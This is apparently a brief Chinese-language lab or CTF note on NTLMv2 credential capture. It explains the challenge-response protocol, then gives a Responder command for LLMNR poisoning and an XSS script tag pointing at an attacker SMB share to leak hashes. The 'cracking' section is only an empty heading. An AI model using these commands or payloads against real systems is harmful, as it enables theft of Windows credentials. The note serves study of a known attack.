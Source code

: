 # NTLMv2攻击

[通过 NTLMv2 获取凭据 | 0xdf 破解事物 --- Getting Creds via NTLMv2 | 0xdf hacks stuff](./https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html)具体攻击原理及手段可以参考这篇文章，这里做简单总结

## NTLMv2工作原理

![1546862052478](./Flight-Windows_active/1546862052478.png)

> 1.客户端发送一个认证请求，其中包含有关连接的参数。
>
> 2.服务器返回一个 nonce，一个随机生成的 16 字节，不应重复使用。
>
> 3.客户端使用密码加密该 nonce，并将其发送回去。
>
> 4.在非域认证的情况下，服务器知道密码，因此可以解密响应，并检查是否与原始 nonce 匹配。如果匹配，则授予访问权限。
>
> 在域环境中，唯一的不同之处在于服务器会将用户名、nonce 和加密的 nonce 转发到域控制器，在那里域控制器可以使用用户的哈希值来加密 nonce，并检查它是否与用户提供的 nonce 匹配。

## 攻击手段

### 链路本地多播名称解析（LLMNR）

访问错误地址时，就会发送多播请求，此时如果正在监听就能监听到这个请求中的NTLM然后进行破解

```
responder -I eth0
```

## 主动访问我的SMB

让对方主动访问我的SMB时，也可以捕获到NTLMv2

可以搭配xss，任意文件读取漏洞

```
<script language='javascript' src="\\10.10.14.15\share"></script>
```

## 破解
